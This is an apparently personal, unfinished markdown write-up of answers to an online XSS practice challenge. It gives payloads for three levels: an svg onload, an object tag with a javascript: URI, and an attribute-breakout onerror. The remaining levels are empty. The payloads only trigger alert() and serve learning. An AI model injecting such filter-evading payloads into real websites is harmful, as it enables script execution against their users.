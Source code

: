 # XSS Challanges from https://www.zixem.altervista.org/XSS

## Level 1

```html
<svg/onload=alert()>
```
## Level 2

```html
<object data="javascRipt:alert()">
```

## Level 3

- htmlentities
- urlencode

```html

```


## Level 4

- Inline html
- 
```html
x' onerror=javascript:alert()//
```

## Level 5

## Level 6

## Level 7

## Level 8

## Level 9

## Level 10

